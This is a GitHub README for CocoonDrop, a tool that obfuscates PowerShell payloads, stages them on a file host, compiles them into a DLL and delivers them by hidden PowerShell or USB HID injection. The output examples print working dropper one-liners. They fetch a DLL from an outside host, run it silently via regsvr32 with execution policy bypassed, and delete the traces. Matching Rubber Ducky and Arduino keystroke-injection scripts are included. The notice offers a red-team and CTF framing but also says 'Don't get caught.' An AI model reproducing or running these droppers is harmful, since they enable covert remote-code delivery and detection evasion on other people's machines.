 # 🐛 CocoonDrop

> _Wrap your payload in a shell of silence._

**CocoonDrop** is a multi-stage payload obfuscator and dropper generator tailored for CTF creators, red teamers, and anyone needing to make payload delivery **silent**, **modular**, and **weirdly beautiful**.

It encrypts PowerShell payloads using XOR + Base64, stages them via Catbox, optionally shortens URLs using **goolnk over RapidAPI (no key needed)**, wraps them in a one-liner, compiles that into a DLL, and delivers the whole thing through your choice of:
- a raw PowerShell command,
- a Rubber Ducky script,
- or a Beetle USB injection sketch.

---

## ⚙️ Features

- ✅ XOR + Base64 obfuscation with custom key or auto-generation
- ✅ Catbox upload of encrypted payload and staging script
- ✅ **Anonymous URL shortening** using RapidAPI + goolnk (no key required)
- ✅ One-liner PowerShell wrapper that pulls & decrypts live
- ✅ Auto-compiled GCC DLL embedding the obfuscated payload
- ✅ Final delivery via:
  - 🖥️ PowerShell execution
  - 🐥 Rubber Ducky HID script
  - 🪲 Beetle USB Arduino HID script
- ✅ Full PyQt5 GUI with dark mode
- ✅ Transparent logging for each phase

---

## 📦 Installation

### 🔧 Requirements

- Python 3.7+
- GCC (`gcc`, `mingw-w64`, or `x86_64-w64-mingw32-gcc`)
- Internet connection (for Catbox & goolnk)

### 🐍 Python Dependencies

```bash
pip install pyqt5 catbox-uploader requests
```

---

## 🧪 Use Cases

| Use Case          | Description                                       |
|-------------------|---------------------------------------------------|
| 🔐 Red Team       | Payload dropper for low-visibility delivery       |
| 🧠 CTF Creation    | Make challenge stages that feel real              |
| 🔌 HID Injection   | Combine with Ducky or Beetle USB for physical access |
| 🔍 Adversarial Sim| Simulate malware delivery without the malware     |
| 🛡️ EDR Testing     | Safe, weird payload behaviors for defense teams   |

---

## 🧰 Workflow Overview

```
[PowerShell Script]
        ↓
[XOR + Base64 Encode]
        ↓
[Upload to Catbox]
        ↓
[Generate Stager → Upload to Catbox]
        ↓
[Shorten Link via goolnk (no key)]
        ↓
[Insert into PowerShell One-Liner]
        ↓
[Encode to UTF-16LE + Base64]
        ↓
[Insert into DLL C Code Template]
        ↓
[Compile DLL → Upload to Catbox]
        ↓
[Final PS Dropper + Ducky/Beetle Scripts (optional)]
```

---

## 🚀 Usage

```bash
git clone https://github.com/listentosmoke/CocoonDrop.git
cd cocoondrop
python cocoondrop.py
```

---

## 🖥️ Output Examples

### 🪄 Final PowerShell One-Liner

```powershell
powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\dropper.dll'"
```

### 🐥 Rubber Ducky Script

```ducky
DELAY 1000
GUI r
DELAY 200
STRING powershell
ENTER
DELAY 700
STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "(Invoke-WebRequest -Uri 'https://...dll' ..."
ENTER
```

### 🪲 Beetle USB Sketch (Arduino)

```cpp
typeString("powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ");
typeString(""(Invoke-WebRequest -Uri 'https://files.catbox.moe/abc123.dll' -OutFile '$env:TEMP\dropper.dll'); Start-Process -FilePath 'regsvr32.exe' -ArgumentList '/s $env:TEMP\dropper.dll'; Start-Sleep -s 3; Remove-Item -Force -Path '$env:TEMP\dropper.dll'"");
```

---

## ✍️ GUI Walkthrough

1. 💬 Paste your PowerShell payload  
2. 🔑 Choose or generate a key  
3. 🧪 Encrypt & upload payload  
4. 📤 Auto-generate and upload staging script  
5. 🔗 CocoonDrop silently shortens it via goolnk RapidAPI  
6. 🧙 Generate DLL from the embedded payload  
7. 📎 Get the final execution script  
8. 🎯 Choose HID output (Ducky / Beetle) — optional  

---

## 🔐 Legal & Ethics Notice

CocoonDrop is strictly for:

- 🔐 Ethical red teaming  
- 🧠 CTF creation  
- 🧪 Adversarial simulations  
- 🛡️ Blue team EDR testing  

**You are responsible for your actions.**  
Don't be evil. Don't be stupid. Don’t get caught.

---

## 🧬 Why "CocoonDrop"?

Like a cocoon, the payload is hidden, dormant, ready to execute only when triggered.  
It doesn’t crawl. It waits.  
It doesn’t fight. It deploys.

---

## 👨‍🔧 Credits

- **beigeworm** for the inspo  
- **me** for reverse engineering his brilliance and turning it into an obfuscator  

---

## 🛠️ TODO

- Use more encryption than XOR  
- Add polymorphic encryption with variable layers  

---

## 🪓 License

MIT. Just don’t use it for malware and don’t sue me.
